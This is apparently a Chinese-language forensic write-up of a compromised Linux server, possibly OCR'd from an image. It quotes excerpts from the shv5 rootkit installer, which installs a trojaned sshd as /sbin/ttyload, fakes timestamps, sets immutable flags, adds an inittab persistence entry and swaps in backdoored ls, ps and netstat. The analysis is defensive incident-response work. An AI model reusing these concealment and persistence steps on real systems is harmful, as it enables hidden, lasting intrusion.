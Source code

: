 Woht!这个系统已经被入侵了.这实在是令人激动的一件事情,不过很显然,我的朋友不这么想.这个入侵者犯了一个很基本的错误,没有清除”.bash_history”文件.所以他/她可能在其他的地方也留下了一些蛛丝马迹.接下来就是详细的分析一下这次入侵.

通过bash history我们得到了大量的信息.先来看一下”/var/.x”下面隐藏了什么和命令”setup zibi.joe.149 54098″的作用吧.

   
root@server1:/var/.x# file setup setup: Bourne-Again shell script text executable root@server1:/var/.x# wc -l setup 825 setup root@server1:/var/.x# head -17 setup #!/bin/bash # # shv5-internal-release # by: PinT[x] April/2003 # # greetz to: # # [*] SH-members: BeSo_M, grass^, toolman, nobody, niceboy, armando99 # C00L|0, GolDenLord, Spike, zion ... # [*] Alba-Hack : 2Cool, heka, TheMind, ex-THG members ... # [*] SH-friends: mave, AlexTG, Cat|x, klex, JinkS ... # [*] tC-members: eksol, termid, hex, keyhook, maher, tripod etc.. # [*] And all others who diserve to be here but i forgot # [*] them at the moment ! # # PRIVATE ! DO NOT DISTRIBUTE *censored*EZ !

“setup”这个脚本是rootkit shv5的安装脚本.它安装了一个修改过的ssh后门–”/bin/ttyload”,然后把它加到了”/etc/inittab”,这样每次重启后就会自动启动.(相关部分的脚本如下:)

mv $SSHDIR/sshd /sbin/ttyload chmod a+xr /sbin/ttyload chmod o-w /sbin/ttyload touch -acmr /bin/ls /sbin/ttyload chattr +isa /sbin/ttyload kill -9 `pidof ttyload` >/dev/null 2>&1 .... # INITTAB SHUFFLING chattr -isa /etc/inittab cat /etc/inittab |grep -v ttyload|grep -v getty > /tmp/.init1 cat /etc/inittab |grep getty > /tmp/.init2 echo "# Loading standard ttys" >> /tmp/.init1 echo "0:2345:once:/usr/sbin/ttyload" >> /tmp/.init1

它也替换了一些linux的标准命令.

# Backdoor ps/top/du/ls/netstat/etc.. cd $BASEDIR/bin BACKUP=/usr/lib/libsh/.backup mkdir $BACKUP ... # ls ... chattr -isa /bin/ls cp /bin/ls $BACKUP mv -f ls /bin/ls chattr +isa /bin/ls

这样子就可以解释为什么”ls”命令输出那么奇怪了.

“.backup”文件夹保存了被替换之前的命令程序.

root@server1:/var/.x# ls -l /usr/lib/libsh/.backup/ total 552 -rwxr-xr-x 1 root root 126276 Dec 24 22:58 find -rwxr-xr-x 1 root root 59012 Dec 24 22:58 ifconfig -rwxr-xr-x 1 root root 77832 Dec 24 22:58 ls -rwxr-xr-x 1 root root 30388 Dec 24 22:58 md5sum -rwxr-xr-x 1 root root 99456 Dec 24 22:58 netstat -rwxr-xr-x 1 root root 65492 Dec 24 22:58 ps -rwxr-xr-x 1 root root 14016 Dec 24 22:58 pstree -rwxr-xr-x 1 root root 50180 Dec 24 22:58 top

看了一下时间戳,居然是在圣诞节.

很显然,原始的”ls”和后门安装的”ls”是不一样的.他们的md5对比如下:
root@server1:~# md5sum /usr/lib/libsh/.backup/ls /bin/ls eef7ca9dd6be1cc53bac84012f8d1675 /usr/lib/libsh/.backup/ls 0a07cf554c1a74ad974416f60916b78d /bin/ls root@server1:~# file /bin/ls /bin/ls: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.0.0, dynamically linked (uses shared libs), for GNU/Linux 2.0.0, stripped root@server1:~# file /usr/lib/libsh/.backup/ls /usr/lib/libsh/.backup/ls: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.6.0, dynamically linked (uses shared libs), for GNU/Linux 2.6.0, stripped

这个rootkit(“sh5.tar.gz”)是从下面的地址下载的.

root@server1:~# dig +short -x 83.19.148.250 4lo.bydg.pl.

这是一个波兰的ip,从这个ip上没有得到更多的信息.不过这个入侵者依然犯了几个严重的错误.

这是运行”setup”命令的截图:(在服务器上的沙盒里运行的)
